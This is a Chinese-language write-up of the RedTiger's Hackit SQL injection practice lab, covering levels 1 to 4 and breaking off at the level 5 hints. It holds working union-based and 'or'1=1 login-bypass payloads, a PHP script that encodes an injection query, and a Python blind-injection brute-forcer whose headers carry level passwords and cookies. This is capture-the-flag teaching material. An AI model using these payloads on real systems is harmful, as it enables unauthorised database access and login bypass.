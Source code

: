 ```yaml
---
layout: default
title: RedTiger's-Hackit-Writeup
date: 2018-03-18
categories: SQL注入
tags: SQL注入
description: RedTiger's-Hackit是一个练习SQL注入的靶场
---
```


### 概述
	RedTiger's Hackit的网址是`https://redtiger.labs.overthewire.org`，有盲注，绕过等

### level1

这是level1的页面，我们得到提示：表名为`level1_users`。

![level1](http://101.132.99.228/post_img/level1.png)

点击Category:1，发现页面发生变化，这是我们的注入点。在URL后面添加

`and 1=1`和`and 1=2`

页面发生变化，则该注入点可以利用。输入`order by 1,2`判断该表有几列，输入到`order by 1,2,3,4,5`页面发生变化，那么我们判断除id外还有三列。


输入`union select 1,2,3,4 from level1_users`，发现3，4被显示出来

于是我们构造

`union select 1,2,username,password from level1_users`

就得到了登录的username和password，输入之后得到flag。

### level2
来到level2的页面，提示是loginbypass

![level2](http://101.132.99.228/post_img/level2.png)

使用`'or'1=1`进行绕过。
输入用户名，密码为`'or'1=1`，成功登录，得到flag。

### level3
提示线索是`Try to get an error`，通过错误信息得到进一步的信息。

![level3](http://101.132.99.228/post_img/level3.png)

点击Show userdetails:下面的两个超链接`TheCow`和`Admin`，发现可以进行注入。

点击Admin，查询条件是

`usr=MDQyMjExMDE0MTgyMTQw`

我们构造`usr[]=MDQyMjExMDE0MTgyMTQw`制造一个错误。
通过这个错误，我们得到报错信息

`Warning: preg_match() expects parameter 2 to be string, array given in /var/www/html/hackit/urlcrypt.inc on line 25`

猜测urlcrypt.inc文件中有我们要的信息。
打开urlcrypt.inc是一个PHP代码，作用是对字符串进行编码，这两个函数可能就是对url进行编码的。构造以下poc进行验证。

	<?php

		function encrypt($str)
		{
			$cryptedstr = "";
			srand(3284724);
			for ($i =0; $i < strlen($str); $i++)
			{
				$temp = ord(substr($str,$i,1)) ^ rand(0, 255);
				
				while(strlen($temp)<3)
				{
					$temp = "0".$temp;
				}
				$cryptedstr .= $temp. "";
			}
			return base64_encode($cryptedstr);
		}
	  
		$url='Admin';
		echo 'Admin encrypted:'.encrypt($url);
	?>

得到结果为
	
	Admin encrypted:MDQyMjExMDE0MTgyMTQw
	//Windows下的执行结果为：Admin encrypted:MjE5MTU5MDM5MDIxMDYx
	//Linux执行结果为：     Admin encrypted:MDQyMjExMDE0MTgyMTQw
	//造成这个差别的原因是，在srand()设置随机数种子相同时，调用随机数函数rand()的结果不同
	//考虑到大部分服务器系统都是Linux，所以在编写poc时最好在Linux系统上运行

与Admin的查询条件刚好相同，所以它的原理是先对查询语句进行编码，那我们构造注入语句

	' union select 1,password,2,3,4,5,6 from level3_users where username='Admin
	//经过encrypt函数编码为
	MDc2MTUxMDIyMTc3MTM5MjMwMTQ1MDI0MjA5MTAwMTc3MTUzMDc0MTg3MDk1MDg0MjQzMDE3MjUyMDI1MTI2MTU2MTc2MTMzMDAwMjQ2MTU2MjA4MTgyMDk2MTI5MjIwMDQ5MDUyMjMwMTk4MTk2MTg5MTEzMDQxMjQwMTQ0MDM2MTQwMTY5MTcyMDgzMjQ0MDg3MTQxMTE1MDY2MTUzMjE0MDk1MDM4MTgxMTY1MDQ3MTE4MDg2MTQwMDM0MDg1MTE4MTE4MDk5MjIyMjE4MDEwMTkwMjIwMDcxMDQwMjIw

于是顺利得到Admin的登录口令

### level4
level4是盲注,我们的目标是得到`level4_secret`这个表的keyword列的第一个值
![level4](http://101.132.99.228/post_img/level4.png)

首先来进行布尔盲注来判断keyword的长度'id=1 and (select count(*) from level4_secret where length(keyword)=4'。一直判断到`length(keyword)=21`，才返回`Query returned 1 rows`，证明keyword的长度是21。接下来编写poc来暴力破解出keyword的字段值。

	import re
	import string
	ans=''
	char=string.printable
	url="https://redtiger.labs.overthewire.org/level4.php?id=1%20and%20(select%20count(*)%20from%20level4_secret%20where%20substr(keyword,{0},1)='{1}')"
	header={"cookie":"level2login=4_is_not_random; level3login=feed_your_cat_before_your_cat_feeds_you; __cfduid=decf6542800964a4fa1356e86419c65341521017670; __utma=176859643.251792877.1521017673.1521017673.1521017673.1; __utmz=176859643.1521017673.1.1.utmcsr=wechall.net|utmccn=(referral)|utmcmd=referral|utmcct=/open_challs/by/chall_score/ASC/page-1; level4login=there_is_no_bug"
	        }
	for i in range(1,21):
	    for j in char:
	        uurl=url.format(i,j)
	        s=requests.post(url=uurl,headers=header)
	        if re.findall('Query returned 1 rows. ', s.text):
	            print(j)
	            ans=ans+j
	            break
	print(ans)

最终顺利得到keyword的值。

### level5
level5是Bypass绕过，提示的信息有：substring，substr，（，），mid都不能使用；密码是MD5加密的，关注登录错误。
![level5](http://101.132.99.228/post_img/level5.png)
